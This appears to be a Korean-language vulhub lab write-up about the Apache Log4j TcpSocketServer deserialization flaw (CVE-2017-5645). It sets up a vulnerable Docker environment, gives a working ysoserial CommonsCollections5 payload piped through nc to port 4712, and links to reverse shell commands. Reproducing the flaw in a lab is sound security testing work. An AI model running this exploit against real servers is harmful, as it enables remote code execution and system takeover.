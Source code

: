 # Apache Log4j 서버 역직렬화 명령 실행 취약점(CVE-2017-5645)
Apache Log4j는 원격 로그 서버 시작을 지원하는 Java용 로깅 라이브러리입니다. 2.8.2 이전의 Apache Log4j 2.x 버전에는 보안 취약점이 있습니다. 공격자는 이 취약점을 악용하여 임의 코드를 실행할 수 있습니다.
## 취약점 환경

취약성 환경을 시작하려면 다음 명령을 실행하십시오.

```
docker compose up -d
```

환경이 시작되면 포트 4712에서 TCPServer가 열립니다.   

그런데 vulhub의 docker 이미지를 사용하여 환경을 구축하는 것 외에도 log4j jar 파일을 다운로드한 후 명령줄에서 직접 TCPServer를 시작할 수 있습니다: `java -cp "log4j-api-2.8.1.jar:log4j- core-2.8 .1.jar:jcommander-1.72.jar" org.apache.logging.log4j.core.net.server.TcpSocketServer`

## 취약점 재발

ysoserial을 사용하여 페이로드를 생성한 다음 `your-ip:4712` 포트로 직접 보냅니다.   

```
java -jar ysoserial-master-v0.0.5-gb617b7b-16.jar CommonsCollections5 "touch /tmp/success" | nc your-ip 4712
```

그런 다음 `docker compose exec log4j bash`를 실행하여 컨테이너에 들어가면 /tmp/success가 성공적으로 생성된 것을 볼 수 있습니다.   


[리바운드 셸 명령](http://www.jackson-t.ca/runtime-exec-payloads.html)을 실행하고 성공적으로 셸로 되돌아옵니다.
